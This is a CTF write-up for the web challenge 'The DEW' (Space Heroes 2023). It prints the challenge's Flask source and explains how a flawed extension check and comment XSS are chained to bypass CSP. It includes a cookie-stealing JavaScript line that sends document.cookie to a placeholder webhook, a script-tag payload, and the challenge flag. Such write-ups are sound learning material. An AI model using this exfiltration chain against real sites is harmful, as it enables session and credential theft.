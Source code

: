 ```yaml
---
title: The DEW - Space Heroes 2023
date: 2023-04-23
description: Writeup for The DEW from Space Heroes CTF 2023
tags: [writeups, ctfs]
---
```


This CTF I played with `Space Heroes International Team`, a team consisting mostly of people in ARESx and some from Emu Exploit. We placed 2nd place in open division and 1st place in the student division!

I had a lot of fun in this CTF and am looking forward to it next year!

# The DEW

{{< zoom-img src="img/the-dew-chall.png" >}}

From exploring the site, we find two interesting functionalities, being able to upload images and a comment system.

Messing with the comment system a bit we find that it's vulnerable to XSS, although what good is XSS without an admin bot?

Looking at the source of the page, we find a comment pointing us to the `/source` path.

{{< zoom-img src="img/the-dew-html-source.png" >}}

Going to this path gives us the python flask script running on the server

```python
#https://www.w3schools.com/howto/howto_css_blog_layout.asp
#https://flask.palletsprojects.com/en/latest/patterns/fileuploads/
import os
import redis
import subprocess
from uuid import uuid4
from flask import *
from flask_limiter import Limiter
from flask_limiter.util import get_remote_address
from flask_socketio import SocketIO, emit
from werkzeug.utils import secure_filename

UPLOAD_FOLDER = os.path.abspath('../') + '/images/'
ALLOWED_EXTENSIONS = {'png', 'jpg', 'jpeg', 'gif'}

app = Flask(__name__)

limiter = Limiter(
	get_remote_address,
	app=app,
	default_limits=["30 per minute"]
)

app.config['UPLOAD_FOLDER'] = UPLOAD_FOLDER
app.config['SECRET_KEY'] = 'secret!'

socketio = SocketIO(app)

comments = []

def allowed_file(filename):
   return '.' in filename and filename.rsplit('.')[1].lower() in ALLOWED_EXTENSIONS

@app.after_request
def add_security_headers(resp):
	resp.headers['Content-Security-Policy']="default-src 'self' https://*.jquery.com https://*.cloudflare.com;  object-src 'none';"
	return resp

@socketio.on('submit comment')
def handle_comment(data):
	comments.append("<p class=\"comment\"><strong>" + data['author'] + ":</strong> " + data['comment'] + "</p>");
	emit('new comment', broadcast=True)

@socketio.on('waive admin')
def waive_admin():
	subprocess.run(['python','admin.py'])

@app.route('/', methods=['GET'])
def news():
	if 'flag' in request.cookies:
		return render_template('/news.html', comments=comments)
	else:
		resp = make_response(render_template('/news.html', comments=comments))
		resp.set_cookie('flag','if only you were the admin lol')
		return resp

@app.route('/upload', methods=['GET','POST'])
def upload():
	if request.method == 'POST':
		if 'file' not in request.files:
			flash('No file part')
			return render_template('/upload.html',message='No file uploaded :(')
		file = request.files['file']
		if not file:
			flash('No file data')
			return render_template('/upload.html',message='No file uploaded :(')
		if file.filename == '':
			flash('No selected file')
			return render_template('/upload.html',message='Filename can\'t be empty, silly!')
		if allowed_file(file.filename):
			filename = session['uuid'] + secure_filename(file.filename)
			print(filename)
			file.save(os.path.join(app.config['UPLOAD_FOLDER'], filename))
			return render_template('/upload.html',message=f'Image uploaded successfully to /images/{filename}!')
		else:
			return render_template('/upload.html',message='Bad file type detected! Only .png, .jpg, .jpeg, and .gif allowed!')
	return render_template('/upload.html')

@app.route('/images/<name>', methods=['GET'])
def download_file(name):
	return send_from_directory(app.config["UPLOAD_FOLDER"], name)


@app.route('/source',methods=['GET'])
def show_source():
	return render_template('server_code.py')

if __name__=='__main__':
	app.run(host="0.0.0.0",port=31337)
```

Theres a decent bit going on in this script so I'll just point out he interesting parts.

The first interesting bit of code is the `allowed_file` function.
```python
def allowed_file(filename):
   return '.' in filename and filename.rsplit('.')[1].lower() in ALLOWED_EXTENSIONS
```

This function doesn't properly check the extension because it makes the assumption the uploaded file will only have one dot. If we were to input something like `bad.png.js` our fille will still be uploaded since it only checks if the `png` is in `ALLOWED_EXTENSIONS`

This seems bad, but so far theres no way to get the flag just with this vulnerability. We're going to need to look for more to chain.

The next interesting functionality in this script is the `waive_admin` function.
```python
@socketio.on('waive admin')
def waive_admin():
	subprocess.run(['python','admin.py'])
```

We're not given the source of admin, so I made an educated guess that it would visit the homepage, with the flag cookie being actually set to the flag. I'm not really a fan of having to guess that it would do this, but I didn't see any way to look into admin.py so it was my only option.

## CSP?

Now that we know there is an admin bot that can read the comments we put, and we also know that the comments are vulnerable to XSS, the final exploit should be easy right? Not quite. The page has CSP set so that scripts can only come from `self`, `https://*.jquery.com`, or `https://*.cloudflare.com`. So if we can't just wrap our exploit in the script tag, what can we do? That's where our file upload vulnerability comes into play.

We are able to upload our malicious JS script onto the server, allowed it to be served by the website itself and therefore getting around the CSP set in place.

## The final chain

First we upload our malicous JS script to the server.
```js
document.location="<webhook url>?"+document.cookie;
```
Then we submit our comment with this payload
```html
<script src="/images/<file name>"></script>
```
Then press the `waive admin` button and we'll see the flag in our webhook logs.

{{< zoom-img src="img/the-dew-webhook-result.png" >}}

Flag: `shctf{w3_a11_l1v3_und3r_th3_DOMe}`
